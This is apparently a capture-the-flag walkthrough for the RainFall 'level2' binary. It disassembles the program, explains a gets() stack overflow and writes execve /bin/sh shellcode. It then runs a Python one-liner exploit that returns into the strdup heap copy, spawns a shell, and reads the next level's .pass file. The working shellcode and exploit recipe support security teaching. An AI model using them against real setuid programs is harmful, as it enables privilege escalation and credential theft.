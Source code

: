 # level2 walkthrough
Given 32 bit setuid binary. Lets disassemble it with gdb:

    (gdb) disass main
    Dump of assembler code for function main:
    0x0804853f <+0>:	push   ebp
    0x08048540 <+1>:	mov    ebp,esp
    0x08048542 <+3>:	and    esp,0xfffffff0
    0x08048545 <+6>:	call   0x80484d4 <p>
    0x0804854a <+11>:	leave
    0x0804854b <+12>:	ret
    End of assembler dump.

Main function just calls "p" function without any arguments.

    (gdb) disass p
    Dump of assembler code for function p:
    0x080484d4 <+0>:	push   ebp
    0x080484d5 <+1>:	mov    ebp,esp
    0x080484d7 <+3>:	sub    esp,0x68
    0x080484da <+6>:	mov    eax,ds:0x8049860
    0x080484df <+11>:	mov    DWORD PTR [esp],eax
    0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
    0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
    0x080484ea <+22>:	mov    DWORD PTR [esp],eax
    0x080484ed <+25>:	call   0x80483c0 <gets@plt>
    0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
    0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
    0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
    0x080484fb <+39>:	and    eax,0xb0000000
    0x08048500 <+44>:	cmp    eax,0xb0000000
    0x08048505 <+49>:	jne    0x8048527 <p+83>
    0x08048507 <+51>:	mov    eax,0x8048620
    0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
    0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
    0x08048513 <+63>:	mov    DWORD PTR [esp],eax
    0x08048516 <+66>:	call   0x80483a0 <printf@plt>
    0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
    0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
    0x08048527 <+83>:	lea    eax,[ebp-0x4c]
    0x0804852a <+86>:	mov    DWORD PTR [esp],eax
    0x0804852d <+89>:	call   0x80483f0 <puts@plt>
    0x08048532 <+94>:	lea    eax,[ebp-0x4c]
    0x08048535 <+97>:	mov    DWORD PTR [esp],eax
    0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
    0x0804853d <+105>:	leave
    0x0804853e <+106>:	ret
    End of assembler dump.

There is a gets call in "p" function which reads into buffer allocated on stack, so this binary should be vulnerable to stack overflow atack just like binary from previous level.
But there are two problems. Firstly there is no function containing vulnerability itself, we would need to create it by ourself and insert it in buffer via gets.
Secondly there is a jump condition (p+49) which leads to a branch with exit call if highest bit of saved return address equals 0xb.
If we get into this branch process will die and we wouldn't be able to execute any harmful code.
That's why we can't set return address to the buffer, but in other branch there is strdup call which allocates memory in heap and copies our buffer in allocated string.
We can set our return code to the allocated string address and execute our code from there.

## Buffer exploit
Our main goal is to launch shell from setuid binary, but we can't use library function calls because there are no execve functions linked to this binary.
That's why we need to write execve from scratch on assembler using syscall:

    mov eax 0x0000000b  ; syscall number 
    mov ebx, 0x80c5188  ; string address
    mov ecx, 0x00000000 ; command arguments
    mov edx, 0x00000000 ; environment variables
    int 0x80            ; software interrupt

Normal execve syscal of /bin/sh would look like this, but there are two restrictions for our case: we can't have 0x0 byte in our code, because strdup accepts null terminated string and we also can't have \n byte, because gets would stop reading our string.
Keeping those constraints lets rewrite asm code:

    push   0xb          ; Push syscall number on stack
    pop    eax          ; Pop syscall number from stack in eax register
    cdq                 ; Clear edx register and high values of eax
    push   edx          ; Push zeroed registers on stack (to have null-terminated string)
    push   0x68732f2f   ; Push "/sh" part of string converted to DWORD PTR little endian value
    push   0x6e69622f   ; Push "/bin" part of string converted to DWORD PTR little endian value
    mov    ebx,esp      ; Copy top of stack address in ebx (binary path to launch)
    xor    ecx,ecx      ; Zero ecx with xor (no env variables provided)
    int    0x80         ; Call software interrupt

Now we can use gdb or online service to convert asm into binary code for our exploit:

    \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

## Overwrite return address
Return code offset from buffer could be easily calculated since there is no alighment performed at the prelude of the function.
Knowing that buffer buffer starts at the ebp-0x4c, ebp is 4 bytes and return address placed right above ebp we can simply add those values (0x4c+4=0x50) and get offset from the beginning of our buffer which is 80 bytes.
Our exploit string is 21 bytes long, so we need 80-21=59 random bytes prefix and new return address in little endian.
As mentioned above we need to overwrite return address with allocated string from strdup.
It would be contained in eax register after strdup function call which we can lookup using gdb:

    (gdb) b *p+105
    Breakpoint 1 at 0x804853d
    (gdb) run
    Starting program: /home/user/level2/level2
    something
    something

    Breakpoint 1, 0x0804853d in p ()
    (gdb) info registers eax
    eax            0x804a008	134520840

Here it is, our new return address should be set to 0x804a008.

## Performing exploit
Putting all parts together lets execute our exploit:

    level2@RainFall:~$ python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08")' > /tmp/level2/shellcode
    level2@RainFall:~$ cat /tmp/level2/shellcode - | ./level2
    j
    X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
    whoami
    level3
    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

Here is our token for the next level.